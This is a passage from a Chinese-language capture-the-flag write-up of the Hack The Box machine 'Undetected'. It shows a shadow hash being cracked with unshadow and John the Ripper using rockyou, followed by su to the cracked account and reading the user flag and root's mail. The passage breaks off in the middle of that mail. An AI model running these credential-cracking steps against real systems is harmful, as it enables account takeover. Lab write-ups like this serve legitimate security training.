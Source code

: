 ```
┌──(root💀kali)-[~/htb/undetected]
└─# echo "steven1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7:::" > steven1.shadow
```

现在使用 unshadow 为 John 创建文件:

```
┌──(root💀kali)-[~/htb/undetected]
└─# unshadow steven1.passwd steven1.shadow > steven1.hash
```

然后让约翰和洛克一起去:

```
┌──(root💀kali)-[~/htb/undetected]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt steven1.hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihatehackers     (steven1)
1g 0:00:01:44 DONE (2022-02-20 22:47) 0.009611g/s 856.2p/s 856.2c/s 856.2C/s littlebrat..halo03
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

# 用户标志

我们很快得到密码，可以将用户切换到 steven1:

```
www-data@production:/tmp$ su steven1
Password: ihatehackers
id
uid=1000(steven) gid=1000(steven) groups=1000(steven)
```

让我们获取用户标志:

```
steven@production:/root$ cat /home/steven/user.txt 
2c2027e7412139c4cb59d97c6411ba99
```

环顾四周，我注意到的第一件事是史蒂文有一封电子邮件:

```
cat /var/mail/steven
From root@production  Sun, 25 Jul 2021 10:31:12 GMT
Return-Path: <root@production>
Received: from production (localhost [127.0.0.1])
        by production (8.15.2/8.15.2/Debian-18) 
        for <steven@production>; Sun, 25 Jul 2021 10:31:12 GMT
        by production (8.15.2/8.15.2/Submit) id 80FAcdZ171847;
        Sun, 25 Jul 2021 10:31:12 GMT
Date: Sun, 25 Jul 2021 10:31:12 GMT
Message-Id: <202107251031.80FAcdZ171847@production>
To: steven@production
From: root@production
Subject: Investigations

Hi Steven.

```